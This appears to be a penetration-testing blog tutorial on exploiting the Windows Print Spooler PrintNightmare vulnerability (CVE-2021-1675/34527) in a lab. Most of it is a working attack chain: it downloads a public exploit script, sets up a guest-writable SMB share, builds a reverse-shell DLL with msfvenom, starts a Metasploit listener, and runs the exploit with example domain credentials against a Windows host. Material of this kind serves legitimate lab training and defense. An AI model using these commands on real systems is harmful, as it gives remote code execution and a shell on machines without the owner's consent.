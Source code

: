 ## Checking vulnerable targets 




### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /tmp/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-1.png)

The script will need to download a malicious DLL file. So we need a share and for this, we will create an smb server on kali.

Type in the following command to config the smb server to point to the tmp directory on your kali machine. We are using this tmp directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
 [global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
  
 [smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

Start the smb server with the following command

```shell
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

```powershell
$ msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-2.png)

Next we will start a listener with msfconsole. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## The Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@10.0.0.117 '\\192.168.0.157\smb\reverse.dll
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)
